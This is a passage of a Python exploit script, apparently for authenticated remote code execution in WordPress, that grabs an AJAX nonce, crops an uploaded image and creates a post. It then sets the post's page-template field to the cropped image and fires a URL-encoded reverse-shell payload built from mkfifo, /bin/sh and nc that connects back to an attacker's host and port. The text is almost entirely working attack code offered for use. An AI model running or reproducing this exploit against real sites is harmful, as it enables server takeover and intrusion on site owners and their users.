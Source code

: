 ```python title="49512.py"

res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
ajax_nonce_list=re.findall(r',"edit":"(\w+)"',res.text)

if res.status_code == 200 and len(ajax_nonce_list) != 0 :
        ajax_nonce = ajax_nonce_list[0]
        print('[+] Ajax Nonce retrieved successfully ! ajax_nonce : '+ ajax_nonce+'\n')
else :
        print("[-] Failed to retrieve ajax_nonce.\n")
        exit(0)


print("[+] Cropping the uploaded image ... ")

data = {
        'action':'crop-image',
        '_ajax_nonce':ajax_nonce,
        'id':image_id,
        'cropDetails[x1]':0,
        'cropDetails[y1]':0,
        'cropDetails[width]':200,
        'cropDetails[height]':100,
        'cropDetails[dst_width]':200,
        'cropDetails[dst_height]':100
}

res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] Done . \n")
else :
        print("[-] Erorr ! Try again \n")
        exit(0)

print("[+] Creating a new post to include the image... ")

res = requests.post(url+'wp-admin/post-new.php', cookies=cookies)
if res.status_code == 200:
        _wpnonce = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)[0]
        post_id = re.findall(r'"post":{"id":(\w+),',res.text)[0]
        print("[+] Post created successfully . \n")
else :
        print("[-] Erorr ! Try again \n")
        exit(0)

data={
        '_wpnonce':_wpnonce,
        'action':'editpost',
        'post_ID':post_id,
        'post_title':'RCE poc by v0lck3r',
        'post_name':'RCE poc by v0lck3r',
        'meta_input[_wp_page_template]':'cropped-rahali.jpg'
}
res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] POC is ready at : "+url+'?p='+post_id+'&0=id\n')
        print("[+] Executing payload !")
        requests.get(f"{url}?p={post_id}&0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff",cookies=cookies)

else :
        print("[-] Erorr ! Try again (maybe change the payload) \n")
        exit(0)  
```